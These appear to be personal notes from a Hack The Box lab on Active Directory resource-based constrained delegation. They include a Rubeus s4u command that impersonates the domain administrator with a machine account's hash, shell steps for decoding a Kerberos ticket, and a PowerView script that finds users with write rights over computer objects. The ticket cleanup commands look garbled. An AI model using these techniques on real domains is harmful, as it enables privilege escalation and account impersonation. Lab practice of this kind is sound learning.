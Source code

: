 ```powershell-session
.\Rubeus.exe s4u /user:HACKTHEBOX$ /rc4:CF767C9A9C529361F108AA67BF1B3695 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```

![[Pasted image 20241101154511.png]]

![[Pasted image 20241101154540.png]]

NOTE: i tried and tried and could not get this to work. Rubeus kept showing the ticket was imported but i could not browse `\\dc.support.htb\c$` it kept saying it doesn't exist. So I decided to check out 0xdf's blog... turns out he had the same problem. So he did the following:

```
# clean up the dirti_kirbi

echo "dirti_kirbi" | tr -d ' ' > dirti_kirbi
echo "dirti_kirbi" | tr -d \\n > admin.kirbi
base64 -d ticket.kirbi.b64 > ticket.kirbi
```

![[Pasted image 20241101155406.png]]


# Notes

Okay for real. you HAVE to pay attention... Going back through LDAP query there was info you completely overlooked... ATTENTION TO DETAIL!!


``` #searchRBCD.ps1
# import the PowerView module
# Import-Module C:\Tools\PowerView.ps1

# get all computers in the domain
$computers = Get-DomainComputer

# get all users in the domain
$users = Get-DomainUser

# define the required access rights
$accessRights = "GenericWrite","GenericAll","WriteProperty","WriteDacl"

# loop through each computer in the domain
foreach ($computer in $computers) {
    # get the security descriptor for the computer
    $acl = Get-ObjectAcl -SamAccountName $computer.SamAccountName -ResolveGUIDs

    # loop through each user in the domain
    foreach ($user in $users) {
        # check if the user has the required access rights on the computer object
        $hasAccess = $acl | ?{$_.SecurityIdentifier -eq $user.ObjectSID} | %{($_.ActiveDirectoryRights -match ($accessRights -join '|'))}

        if ($hasAccess) {
            Write-Output "$($user.SamAccountName) has the required access rights on $($computer.Name)"
        }
    }
}
```